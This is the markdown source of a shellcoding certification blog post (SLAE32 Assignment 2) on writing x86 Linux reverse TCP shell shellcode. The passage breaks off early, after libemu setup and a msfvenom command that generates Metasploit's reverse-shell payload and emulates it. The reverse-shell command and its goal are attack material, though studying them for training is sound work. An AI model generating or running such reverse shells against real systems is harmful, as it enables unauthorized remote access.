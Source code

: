 ```yaml
---
layout: post
title: SLAE32 Assignment2
---
```

![Alt](https://bohansec.com/assets/SHELLCODING32.png "Pentester Academy")

This blog post has been created for completing the requirments of the SecurityTube (Pentester Academy) x86 Assembly Language and Shellcoding on Linux certification:

[x86 Assembly Language and Shellcoding on Linux](https://www.pentesteracademy.com/course?id=3){:target="_blank"}

Student ID: SLAE-1562

### Objects
{% highlight js %}
Create a Shell_Reverse_TCP Shellcode

- Reverse connects to configured IP and Port
- Execute shell on successful connection

IP and Port should be easily configurable
{% endhighlight %}

### Prerequisite

* Install libemu
{% highlight js %}
git clone https://github.com/buffer/libemu
sudo apt-get install autoconf
sudo apt-get install libtool
autoreconf -v -i
./configure --prefix=/opt/libemu
autoreconf -v -i
sudo make install
{% endhighlight %}

* Obtain the Kali (x86) Linux 2020.3 
{% highlight js %}
https://images.kali.org/virtual-images/kali-linux-2020.3-vmware-i386.7z
{% endhighlight %}

### Step1 - Disassemble the linux/x86/shell_reverse_tcp from Metasploit
To create our own reverse TCP shell, we need to know each system calls the shell uses. So, we will disassemble one of the reverse shells from Metasploit and take a look at the system calls it uses. The system calls are quite similar to what we saw in the bind shell, except reverse TCP shell uses connect() instead of bind().

* Go to the Libemu install path, using sctest to disassemble the linux/x86/shell_reverse_tcp
{% highlight js %}
msfvenom -p linux/x86/shell_reverse_tcp  -f raw | ./sctest -vvv -Ss 100000
kali@kali:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell_reverse_tcp  -f raw | ./sctest -vvv -Ss 100000
verbose = 3
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes

[emu 0x0xe76630 debug ] cpu state    eip=0x00417000
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0xe76630 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: 